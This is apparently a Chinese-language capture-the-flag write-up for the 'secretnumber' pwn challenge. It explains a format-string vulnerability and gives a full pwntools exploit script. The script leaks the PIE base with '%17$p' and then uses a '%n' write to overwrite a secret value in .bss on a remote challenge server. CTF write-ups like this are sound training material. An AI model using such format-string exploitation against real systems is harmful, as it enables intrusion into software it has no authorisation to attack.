 ```yaml
---
title: newstar2023 week2 - secretnumber
date: 2023/10/3 12:00:00
tags:
    - noob
---
```


## 文件分析

下载`secretnumber`, 保护全开  
ghidra分析为64位程序

## 解题思路

输入1后可以触发格式化字符串漏洞，由于secret数字放在bss上，所以可以先获得地址，
在写入小数字覆盖，然后输入非1数字进入猜数字环节，输入覆盖的数字即可

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 29392)

# payload 1
sh.sendline(b'1')
sh.sendlineafter(b'it', b'%17$p') # locate main to get pieBase

sh.recvuntil(b'gift:\n')
pieBase = int(sh.recvline()[:14], 16) - 0x12f5
secretAddr = pieBase + 0x404c

sh.sendline(b'1')
sh.sendlineafter(b'it', b'pad_%9$n' + p64(secretAddr)) # arg8: pad_%9$n, arg9: secretAddr

sh.sendlineafter(b'/1)', b'0')
sh.sendlineafter(b'number', b'4')
sh.interactive()
```

Done.
